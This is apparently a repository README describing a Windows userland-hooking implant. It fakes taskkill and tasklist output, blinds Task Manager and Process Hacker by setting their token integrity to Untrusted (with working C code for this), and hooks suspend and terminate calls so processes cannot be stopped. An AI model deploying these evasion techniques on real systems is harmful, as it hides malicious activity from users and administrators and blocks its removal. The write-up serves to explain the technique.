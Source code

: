 # Userland Hooking

Userland Hooking was done by injecting the compiled hersion of [`hook.c`](hook.c)
into each user process.

## taskkill

Taskkill was intercepted and made to return "SUCCESS" and exit with exit code
zero.

You'd notice this if you ran `tasklist /?`, it should return "SUCCESS", which is
not valid behavior.

## tasklist

Tasklist was intercepted and made to return a string constant. The returned results
were not real processes.

The string value in question:

```text
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          0 K
System                           4 Services                   0          0 K
smss.exe                         0 Services                   0          0 K
csrss.exe                        0 Console                    0          0 K
duck.exe                        -1 Services                   1          0 K
wininit.exe                      0 Services                   0          0 K
never_gonna                     10 Console                    1          0 K
give_you_up                     11 Console                    1          0 K
never_gonna                     12 Console                    1          0 K
let_you_down                    13 Console                    1          0 K
never_gonna                     14 Console                    1          0 K
run_around                      15 Console                    1          0 K
and_hurt_you                    16 Console                    1          0 K
never_gonna                     17 Console                    1          0 K
say_goodbye                     18 Console                    1          0 K
never_gonna                     19 Console                    1          0 K
see_you_cry                     20 Console                    1          0 K
```

## taskmgr

Task Manager was intercepted and a thread was started on runtime that removed
all permissions and set the Token Integrity level to "Untrusted" making it unable
to display or refresh process information.

```C
DWORD DoUntrust(void) {
    Sleep(500);
    HANDLE t;
    // Get Token for the current process.
    // 0x200A8 - TOKEN_READ | TOKEN_ADJUST_PRIVILEGES | TOKEN_ADJUST_DEFAULT | TOKEN_QUERY
    if (!OpenProcessToken(GetCurrentProcess(), 0x200A8, &t)) {
        return 0;
    }
    SID a;
    DWORD c = 32;
    // Create an untrusted SID
    // 0x41 - WinUntrustedLabelSid
    if (!CreateWellKnownSid(0x41, NULL, &a, &c)) {
        CloseHandle(t);
        return 0;
    }
    SID_AND_ATTRIBUTES b;
    b.Sid = &a;
    b.Attributes = 0x20; // SE_GROUP_INTEGRITY
    // Set the untrusted SID as the Token Group SID
    // 0x19 - TokenIntegrityLevel
    SetTokenInformation(t, 0x19, &b, c + 4);
    CloseHandle(t);
}
```

## Process Hacker

Similar to `taskmgr` this process had it permissions removed and it's Token
Integrity level to "Untrusted" making it unable to display or refresh process
information.

The one different factor is an additional check against the `FileInfo\FileDescription`
which would equal the same string, regardless of the name of the process. This allows
for matching the process even if it's renamed.

## Other

Other non-critical processes had the following API functions intercepted.

- NtSuspendThread: Prevents suspending any Thread.
- NtSuspendProcess: Prevents suspending any process.
- NtTerminateProcess: Prevents terminating any Process.
  - This was bypassed if the PID equals the current PID as `ExitProcess` uses
    this under the hood.
